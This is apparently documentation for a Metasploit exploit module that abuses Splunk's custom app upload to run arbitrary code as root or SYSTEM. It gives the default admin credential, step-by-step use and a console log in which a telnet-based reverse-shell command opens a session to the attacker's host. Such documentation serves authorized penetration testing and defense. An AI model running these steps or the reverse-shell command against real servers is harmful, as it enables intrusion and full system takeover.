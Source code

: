 ## Vulnerable Application

This module exploits a feature of Splunk whereby a custom application can be
uploaded through the web based interface. Through the `script` search command a
user can call commands defined in their custom application which includes arbitrary
perl or python code. To abuse this behavior, a valid Splunk user with the admin
role is required. By default, this module uses the credential of "admin:changeme",
the default Administrator credential for Splunk.
Note that the Splunk web interface runs as SYSTEM on Windows, or as root on Linux by default. 
This module has been tested successfully against:

* 5.0 ([Ubuntu 10.04](https://github.com/rapid7/metasploit-framework/pull/1138#issue-3277564), [Windows XP and Windows Server 2003 SP2](https://github.com/rapid7/metasploit-framework/pull/1138#issue-3277564) with splunk-5.0.1-143156)
* 6.1, 6.1.1
* 7.2.4 (OSX 10.14.3, Windows 10 10.0.17134.1, CentOS7 3.10.0-957.1.3.el7.x86_64)

## Verification Steps

  1. Start msfconsole
  2. Do: ```use exploit/multi/http/splunk_upload_app_exec```
  3. Set required variables (you will need admin credentials)
  4. Do: ```SET LHOST [ip]```
  5. Do: ```SET RHOST [ip]```
  
  8. * If targeting linux or macos the payload ```cmd/unix/reverse_python``` will be automatically selected.
     * If targeting windows the payload ```cmd/windows/adduser``` will be automatically selected.

  9. You should get either a reverse shell on port 4444 via the predefined handler (linux/osx) or a new user in case (windows target)

## External Demo
* [First PoC](http://blog.7elements.co.uk/2012/11/splunk-with-great-power-comes-great-responsibility.html) <br>
* [Metasploit module how-to](http://blog.7elements.co.uk/2012/11/abusing-splunk-with-metasploit.html)<br>
* [SPLUNK API](http://docs.splunk.com/Documentation/Splunk/latest/SearchReference/Script)<br>

## Options

  **EnableOverwrite**
  Overwrites an app of the same name. Needed if you change the app code in the tgz.
  Is not enabled by default.

## Scenarios

### Testing against 7.2.4 running on OSX

  Given admin credentials we can upload the custom app to SPLUNK, which will provide us with a reverse shell, triggered by the 'search' field API.

  ```
msf5 exploit(multi/http/splunk_upload_app_exec) >
msf5 exploit(multi/http/splunk_upload_app_exec) > set RHOST 172.16.165.1
RHOST => 172.16.165.1
msf5 exploit(multi/http/splunk_upload_app_exec) > set password splunksplunk
password => splunksplunk
msf5 exploit(multi/http/splunk_upload_app_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   Splunk >= 7.2.4 / Linux
   2   Splunk >= 7.2.4 / Windows
   3   Splunk >= 7.2.4 / OSX
   4   Splunk >= 5.0.1 / Linux
   5   Splunk >= 5.0.1 / Windows


msf5 exploit(multi/http/splunk_upload_app_exec) > set target 3
target => 3
msf5 exploit(multi/http/splunk_upload_app_exec) > exploit

[*] Started reverse TCP double handler on 172.16.165.206:4444
[*] Using command: sh -c '(sleep 3733|telnet 172.16.165.206 4444|while : ; do sh && break; done 2>&1|telnet 172.16.165.206 4444 >/dev/null 2>&1 &)'
[*] Authenticating...
[*] Fetching state token from /en-US/manager/appinstall/_upload
[*] Uploading file upload_app_exec.tgz
[+] upload_app_exec successfully uploaded
[*] Invoking script command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 8kNbt70jYB3aJKPm;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "sh: line 2: Connected: command not found\r\nsh: line 3: Escape: command not found\r\n8kNbt70jYB3aJKPm\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (172.16.165.206:4444 -> 172.16.165.1:51512) at 2019-03-17 22:12:33 +0100
  ```
